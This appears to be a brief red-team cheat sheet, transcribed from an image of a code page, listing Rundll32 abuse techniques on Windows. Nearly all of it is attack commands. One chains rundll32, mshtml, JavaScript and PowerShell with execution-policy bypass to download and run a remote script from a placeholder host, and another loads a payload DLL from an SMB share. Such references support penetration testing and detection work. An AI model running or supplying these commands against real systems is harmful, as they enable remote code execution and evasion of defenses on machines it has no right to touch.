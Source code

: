 # Rundll32

# Execute JavaScript script that runs a PowerShell script from a remote server

    rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://<IP>/<File.ps1>');"

# Execute a JavaScript script that runs calc.exe.

    rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new%20ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");

# Execute a DLL on a SMB share. EntryPoint is the name of the entry point in the .DLL file to execute.

    rundll32.exe \\10.10.10.10\share\payload.dll,EntryPoint
